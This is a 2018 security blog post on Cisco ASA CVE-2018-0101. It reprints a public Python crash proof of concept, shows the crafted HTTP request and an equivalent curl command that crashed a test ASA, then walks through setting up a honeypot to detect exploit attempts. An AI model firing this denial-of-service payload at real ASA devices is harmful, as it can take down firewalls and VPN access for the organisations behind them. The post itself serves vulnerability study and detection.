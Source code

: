 ```yaml
---
layout: post
title:  "Exploiting & Honeypotting Cisco ASA CVE-2018-0101"
tagline: "A closer look at CVE-2018-0101"
description: "A closer look at CVE-2018-0101 detailing how to exploit it and how to create a honeypot to detect it."
tags: [notes, cisco, exploits, honeypot]
date:   2018-02-10
comments: true
image:
  feature: blog/3/feature.jpg
  hero: blog/3/header.jpg
  credit: LUM3N
  creditlink: https://unsplash.com/@lum3n
---
```


## Summary
**On 29 January 2018** [CVE-2018-0101](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20180129-asa1) - A Remote Code Execution and Denial of Service Vulnerability for Cisco ASA Web VPN - was published featuring a CVSS Base Score of 10.

For those unfamiliar, Common Vulnerability Scoring System or CVSS is a standard used for assessing the severity of vulnerabilities. The score ranges from 0 to 10 with 10 being the most serious.


## Proof of concept

**On 02 February 2018** [@saidelike](https://twitter.com/saidelike) gave a talk titled ["Robin Hood vs Cisco ASA Anyconnect"](https://recon.cx/2018/brussels/resources/slides/RECON-BRX-2018-Robin-Hood-vs-Cisco-ASA-AnyConnect.PDF) at Recon Brussels in which he included some XML on slide 19.

![](/assets/img/blog/3/slide19.png)

*Slide 19 from Robin Hood vs Cisco ASA Anyconnect*

**On 5 February 2018** a proof of concept was published by [@zerosum0x0](https://twitter.com/zerosum0x0), [@jennamagius](https://twitter.com/jennamagius), and [@aleph__naught](https://twitter.com/Aleph___Naught) on [pastebin](https://pastebin.com/YrBcG2Ln). At first glance it appears to be a python script that sends a request to the server using the XML found earlier in the slides and some other required headers.

```python
#
# Cisco ASA CVE-2018-0101 Crash PoC
#
# We basically just read @saidelike slides:
# https://www.nccgroup.trust/globalassets/newsroom/uk/events/2018/02/reconbrx2018-robin-hood-vs-cisco-asa.pdf
#
# @zerosum0x0, @jennamagius, @aleph___naught
#

import requests, sys

headers = {}
headers['User-Agent'] = 'Open AnyConnect VPN Agent v7.08-265-gae481214-dirty'
headers['Content-Type'] = 'application/x-www-form-urlencoded'
headers['X-Aggregate-Auth'] = '1'
headers['X-Transcend-Version'] = '1'
headers['Accept-Encoding'] = 'identity'
headers['Accept'] = '*/*'
headers['X-AnyConnect-Platform'] = 'linux-64'
headers['X-Support-HTTP-Auth'] = 'false'
headers['X-Pad'] = '0000000000000000000000000000000000000000'

xml = """<?xml version="1.0" encoding="UTF-8"?>
<config-auth client="a" type="a" aggregate-auth-version="a">
    <host-scan-reply>A</host-scan-reply>
</config-auth>
"""

r = requests.post(sys.argv[1], data = xml, headers = headers, verify=False, allow_redirects=False)

print(r.status_code)
print(r.headers)
print(r.text)

```

So let's go ahead and test it out!

```shell
wget https://pastebin.com/raw/YrBcG2Ln -O poc-cve-2018-0101.py
python3 poc-cve-2018-0101.py https://ciscoasa.glitchwitch.io
```

Using the PoC results in the following request, confirming my earlier first glance reading.

```http
POST / HTTP/1.1
Host: ciscoasa.glitchwitch.io
User-Agent: Open AnyConnect VPN Agent v7.08-265-gae481214-dirty
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
X-Aggregate-Auth: 1
X-Transcend-Version: 1
X-AnyConnect-Platform: linux-64
X-Support-HTTP-Auth: false
X-Pad: 0000000000000000000000000000000000000000
Content-Length: 156

<?xml version="1.0" encoding="UTF-8"?>
<config-auth client="a" type="a" aggregate-auth-version="a">
    <host-scan-reply>A</host-scan-reply>
</config-auth>

```

With this in mind, the same request can be made using curl.
```shell_session
curl -i -s -k  -X $'POST' \
    -H $'Host: ciscoasa.glitchwitch.io' -H $'User-Agent: Open AnyConnect VPN Agent v7.08-265-gae481214-dirty' -H $'Accept-Encoding: gzip, deflate' -H $'Accept: */*' -H $'Connection: close' -H $'Content-Type: application/x-www-form-urlencoded' -H $'X-Aggregate-Auth: 1' -H $'X-Transcend-Version: 1' -H $'X-AnyConnect-Platform: linux-64' -H $'X-Support-HTTP-Auth: false' -H $'X-Pad: 0000000000000000000000000000000000000000' -H $'Content-Length: 156' \
    --data-binary $'<?xml version=\"1.0\" encoding=\"UTF-8\"?>\x0a<config-auth client=\"a\" type=\"a\" aggregate-auth-version=\"a\">\x0a    <host-scan-reply>A</host-scan-reply>\x0a</config-auth>\x0a' \
    $'https://ciscoasa.glitchwitch.io/'
```    

Ultimately if the server is vulnerable this request should cause the system to crash. In tests on Cisco ASA 9.2(4), this was the case.

## Honey Pot
Okay, so we've got a working PoC in both python and a curl request. Now let's setup a honey pot!

**On 08 February 2018** [@omercent](https://twitter.com/omercnet) from cymmetria [released a honeypot tool](https://cymmetria.com/blog/honeypot-cisco-asa-vulnerability/) for the detection of this vulnerability. So let's go ahead and get that setup.
```shell_session
git clone https://github.com/Cymmetria/ciscoasa_honeypot.git
cd ciscoasa_honeypot
pip3 install --upgrade -r requirements.txt
```
Once that's done we can start it up.
```shell_session
python3 asa_server.py --help
Usage: asa_server.py [OPTIONS]

  A low interaction honeypot for the Cisco ASA component capable of
  detecting CVE-2018-0101, a DoS and remote code execution vulnerability

Options:
  -h, --host TEXT         Host to listen
  -p, --port INTEGER      Port to listen
  -i, --ike-port INTEGER  Port to listen for IKE
  -s, --enable_ssl        Enable SSL
  -c, --cert TEXT         Certificate File Path (will generate self signed
                          cert if not supplied)
  -v, --verbose           Verbose logging
  --help                  Show this message and exit.

python3 asa_server.py -p 443 -s
```

Now if we run the PoC on our honeypot we should see the following

```shell_session
CRITICAL:root:{'data': ['A'], 'src': '10.0.0.32', 'spt': 41392}
```

## Conclusion

CVE-2018-0101 is a critical flaw and is more than just a DoS vulnerability. The vulnerability also allows remote unauthenticated attackers to perform Remote Code Execution. Although at the time of writing this, no PoC code currently exists to demonstrate the rce portion.

A big thanks to [@saidelike](https://twitter.com/saidelike), [@zerosum0x0](https://twitter.com/zerosum0x0), [@jennamagius](https://twitter.com/jennamagius),  [@aleph__naught](https://twitter.com/Aleph___Naught), and [@omercent](https://twitter.com/omercnet) for all of their work.
